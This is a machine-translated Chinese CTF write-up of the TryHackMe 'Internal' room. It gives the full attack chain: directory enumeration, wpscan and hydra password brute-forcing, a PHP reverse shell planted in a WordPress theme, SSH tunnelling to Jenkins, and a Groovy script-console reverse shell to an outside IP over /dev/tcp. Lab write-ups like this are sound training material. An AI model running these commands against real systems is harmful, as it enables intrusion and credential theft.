# TryHackMe:内部报告

> 原文：<https://infosecwriteups.com/tryhackme-internal-writeup-480ce471efdd?source=collection_archive---------0----------------------->

在本文中，我将展示我完成**内部** Capture The Flag (CTF)的方法，这是一个由 *TheMayor 创建的 TryHackMe 平台上的免费渗透测试挑战室。*我在下面的参考资料中提供了 TryHackMe 平台的链接，供有兴趣试用这款 CTF 的人参考。


# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读这篇文章之前尝试一下这个房间，因为在这篇文章中显然会有**剧透****。我相信，如果你先自己尝试一下，然后在遇到困难或需要提示时再来写这篇文章，你会更喜欢 CTF。因此，没有任何进一步的拖延，让我们开始吧！**

# **CTF 背景—内部测试**

**我在下面提供了作者创建的项目前简报的摘要版本。**

> **您被指派给一个客户，该客户希望在一个将于三周内发布到生产环境中进行渗透测试。客户端要求您保护两个标志(未提供位置)作为攻击的证据:**
> 
> **- **User.txt****
> 
> **- **Root.txt****
> 
> **此外，客户还提供了以下范围津贴:**
> 
> **-确保修改您的主机文件以反映 **internal.thm****
> 
> **-本项目中允许使用任何工具或技术**
> 
> **-找到并记录发现的所有漏洞**
> 
> **-将发现的标志提交到仪表板**
> 
> **-只有分配给机器的 IP 地址在范围内**
> 
> **注意:CTF 的作者也鼓励玩家把这个挑战当作一个真正的**渗透测试**，因为这将有利于你为电子安全 eCPPT 或作为该领域渗透测试员的职业生涯做准备。**

**对于本文，我将只关注检索用户和根标志。**

# **列举**

**我首先修改了位于 **/etc/hosts** 的 hosts 文件，并按照预先约定概要的指示为 **internal.thm** 创建了一个条目。**

```
10.10.252.171   internal.thm # entry in hosts file (use your own IP)
```

**接下来，我开始用 **NMAP** 扫描目标机器，寻找任何打开的端口。**

```
nmap -sV -sC -v -Pn -oN nmap_report 10.10.252.171
```

**NMAP 命令可以细分如下:**

*   ****-Pn** :禁用主机发现。**
*   ****-sV** :对服务进行版本检测。**
*   ****-sC** :使用 NMAP 提供的默认脚本执行脚本扫描。**
*   ****-v** :提供关于 NMAP 扫描的详细信息。**
*   ****-oN** :将扫描结果输出到文件。**

**我找到了两个开放的端口，端口 22 和端口 80。我决定检查端口 80 上托管了什么，并找到了 Apache2 的默认欢迎页面。**

****

**接下来，我决定使用 **GoBuster** ，看看是否有隐藏的网页或目录。**

```
gobuster dir -u [http://internal.thm/](http://internal.thm/) -w /usr/share/wordlists/dirb/common.txt 
```

**GoBuster 能够识别几个有趣的隐藏网页，如下图所示。**

****

**查看 **/blog** 页面，我可以看到一个简单的**博客站点被托管在目标机器上。****

****

**向下滚动页面，我还可以看到一个链接，把我带到一个 wordpress 登录页面。**

****

**GoBuster 还发现了第二个名为 **/phpmyadmin** 的登录页面，如下所示。**

****

# ****易受攻击的 WordPress 登录****

**我决定首先关注 WordPress 站点的登录页面。在尝试了几个不同的凭证后，我看到根据我输入的用户名会出现不同的错误消息。例如，如果我输入凭证 **test:test** ，将显示以下错误消息。**

****

**但是，如果我输入凭证 **admin:test** ，则会显示不同的错误消息。这告诉我有一个名为 **admin** 的用户。**

****

**看到这种情况，我决定使用 **wpscan** 工具尝试使用 **rockyou.txt 单词表**强制用户名 **admin** 登录，如下所示。**

```
wpscan --url internal.thm/wordpress/ --passwords rockyou.txt --usernames admin --max-threads 50
```

**这很有效，我能够恢复用户 admin 的密码。**

****

**成功登录后，我开始寻找任何有趣的信息。我注意到在这个例子中使用的 WordPress 版本是 **5.4.2** 。我还看到用户 admin 发了两个帖子，其中一个设置为 private，没有标题。看着这个帖子，我找到了一组用户 **william** 的凭证。**

****

# **WordPress 反向外壳**

**尽管找到了这些凭证，我还是无法使用它们 SSH 到目标机器或者登录到 **/phpmyadmin** 页面。在网上搜索了一番后，我找到了一篇文章(**见参考文献**)，它展示了几种不同的获得逆向 shell 的方法。一种方法是**在 WP_Theme** 中注入恶意代码，通过导航到*Appearances->Editor->404.php*，然后注入 Pentestmonkey 提供的 PHP 反向 shell(**参见参考文献**)。我只是把 PHP 代码中的 IP 地址和端口号改成了我自己的。**

****

**然后我点击按钮**更新文件**并设置 netcat 监听端口 4444。最后，我导航到下面看到的 URL 地址，并以用户 **www-data** 的身份在目标机器上获得了一个反向 shell。**

```
http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php
```

****

# **用户权限提升**

**获得一个反向外壳后，我开始寻找提升权限的方法。查看主目录，我看到有一个名为 **aubreanna** 的用户目录，但是我没有权限查看它的内容。**

****

**检查 **/etc** 目录时，偶然发现了 **/phpmyadmin** 目录。通过检查这个目录，我能够找到 Gobuster 之前发现的登录页面的凭证。**

****

**这些凭证允许我成功登录并查看数据库，但是我没有找到任何允许我提升权限的东西。我还找到了一个名为 **/wordpress** 的目录，其中包含了**WordPress 数据库的凭证。我可以在 **/myphpadmin** 登录网页中使用这些凭证来查看 wordpress 数据库。然而，我仍然没有找到任何有趣的信息。****

********

****经过进一步的搜索，我在 **/opt** 目录中找到了一个名为 **wp-save.txt** 的有趣文件。打开这个文件，我能够找到用户 **aubreanna** 的凭证。****

********

****使用这些凭证，我可以成功地 SSH 到目标机器并获得 **user.txt** 标志。****

********

# ****根权限提升****

****还发现了一个名为 **Jenkins.txt** 的文件，其中包含一条有趣的信息。****

********

****显然有一个 Jenkins 服务在目标机器内部运行。我可以使用 **SSH 隧道**连接到这个远程服务，并使它可以在我的本地机器上访问(**参见参考文献**)。为了实现这一点，我可以简单地与 SSH 服务器建立一个 SSH 连接，并告诉客户端将来自我的本地主机的特定端口的流量(即 **localhost:4444** )转发到服务的地址及其端口(即 **172.17.0.2:8080** )。完整的命令可以在下面看到。****

```
**ssh -L 4444:172.17.0.2:8080 aubreanna@10.10.252.171**
```

****现在，当我在浏览器中键入 **localhost:4444** 时，可以访问 Jenkins 服务的登录页面。****

********

****我决定在目标机器的其他地方寻找一些隐藏的登录凭证，但是我什么也找不到。在线快速搜索显示，Jenkins 登录的默认凭证是**admin**/**password**，但这也无法工作。我最终决定尝试使用 **hydra** 强行登录。使用 chrome 上的开发工具，我检查了提交凭证时登录页面使用了哪些参数。****

********

****每次尝试登录时，都需要提供上面以红色突出显示的参数。我决定使用用户名 **admin** ，因为这是 Jenkins 的默认用户名，并尝试使用这些参数强行破解密码。****

```
**hydra 127.0.0.1 -s 4444 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P rockyou.txt**
```

****九头蛇司令部的详细情况如下:****

*   ******-s** :端口号****
*   ******-f** :一旦找到密码，停止暴力破解登录页面。****
*   ******-V** :显示九头蛇的企图等细节。****
*   ******http-form-post** :表示正在使用的表单类型(即 post)。****
*   ******^USER^:** 告诉九头蛇使用字段中的用户名或列表。****
*   ******^PASS^:** 告诉九头蛇使用提供的密码列表。****
*   ******-l:** 表示单个用户名，例如“admin”(使用 **-L** 查看用户名列表)。****
*   ******-P:** 表示使用以下密码列表，例如 **rockyou.txt******

****执行这个命令导致用户 **admin** 的凭证被恢复，允许我登录到 Jenkins。****

********

****在 Google 上快速搜索会发现许多利用 Jenkins 漏洞获得反向外壳的方法。我使用的方法是利用 Jenkins 上的**脚本控制台**功能。****

********

****要在系统上创建一个反向 shell，我们需要使用 Groovy 脚本。既然基本都是 Java，我们可以用一个 pentestmonkey 的 Java 反向 shell。****

```
**r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.2.36.156/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()**
```

****然后，我可以监听端口 5555 上的连接，并成功获得一个反向 shell。****

********

****查看容器系统，我发现一个存储在 **/opt** 目录中的 **note.txt** 文件，其中包含一条消息和用户 root 的凭证。****

********

****使用这些凭证，我可以作为 root 用户 SSH 并获得 root 标志😃！****

********

# ****结束语****

****这是 TryHackMe 平台上提供的一个有趣且具有挑战性的 CTF。我发现这是一个很好的方法来学习更多关于渗透测试的知识，结合了广泛的易受攻击的服务来利用和测试技术。感谢阅读到最后，继续黑客！****

# ****参考****

*   ****[https://tryhackme.com/](https://tryhackme.com/)****
*   ****[https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/)****
*   ****[https://github . com/pentestmonkey/PHP-reverse-shell/blob/master/PHP-reverse-shell . PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)****
*   ****[https://www.howtogeek.com/168145/how-to-use-ssh-tunneling/](https://www.howtogeek.com/168145/how-to-use-ssh-tunneling/)****
*   ****[https://bentbrobotlabs . WordPress . com/2018/04/02/web-site-log in-brute-forcing-with-hydra/](https://bentrobotlabs.wordpress.com/2018/04/02/web-site-login-brute-forcing-with-hydra/)****
*   ****[https://www . n00py . io/2017/01/compromising-Jenkins-and-extracting-credentials/](https://www.n00py.io/2017/01/compromising-jenkins-and-extracting-credentials/)****